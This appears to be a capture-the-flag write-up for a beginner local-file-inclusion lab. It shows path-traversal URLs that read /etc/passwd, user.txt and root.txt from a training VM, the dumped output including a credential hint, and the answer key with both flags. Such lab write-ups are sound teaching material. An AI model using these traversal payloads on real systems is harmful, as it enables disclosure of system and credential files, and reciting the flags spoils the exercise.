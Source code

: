 # Task 1 Deploy
----

>>This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.
>>If you have any kind of feedback please reach out to me on twitter at 0xmzfr

----

# Task 2 Root It
----

>>If you've deployed the VM then try to find the LFI parameters and get the user and root flag.

>>Contents in the webpage.
```
Home (current)

Hello, world!

Welcome to my blog. This is currently in it's early stage but you can find some articles that I've wrote.

Hacking this world

There are various ways we can hack people and the devices these people depends upon. The best thing is that we don't even have to thing about it twice because bad things happen.

LFI-attack

Local file inclusion attack is the one using which you can include any localfile i.e all the files that are present on the server if the permission is right on the file. The most common file on unix that we can check for is /etc/passwd

RFI-attack

RFI attack or Remote file inclusion attack is the one in which server would include any file from outside the server that means we can include any evil file from our server to the machine and then exploit it.

© falconfeast 2020
```

>>Using the point LFI-attack to include the file.
>>Getting the /etc/passwd.
```url
http://10.10.138.224/article?name=../../../../etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```
>>Getting user.txt
```url
http://10.10.138.224/article?name=../../../../home/falconfeast/user.txt
```
```
60989655118397345799 
```
>>Getting root.txt
```url
http://10.10.138.224/article?name=../../../../root/root.txt
```
```
42964104845495153909
```

----

# ANSWER THE FOLLOWING :
----

1.Deploy the machine and start enumerating
>>No answer needed

2.user flag
>>60989655118397345799

3.root flag    
>>42964104845495153909 

----